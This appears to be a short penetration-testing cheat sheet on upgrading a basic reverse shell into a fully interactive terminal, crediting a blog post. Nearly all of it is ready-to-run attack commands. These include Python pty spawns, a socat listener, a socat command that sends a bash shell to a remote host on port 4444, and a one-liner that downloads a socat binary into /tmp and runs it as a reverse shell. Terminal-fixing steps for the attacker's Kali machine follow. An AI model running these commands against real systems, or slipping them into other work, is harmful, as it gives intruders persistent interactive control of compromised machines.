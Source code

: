 # Python
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
python2 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# Socat
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## wget Socat
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
>github source : https://github.com/andrew-d/static-binaries
>Make sure to get the correct architecture of socat if you are doing this

# stty options
```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```



Source :
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-1-python-pty-module

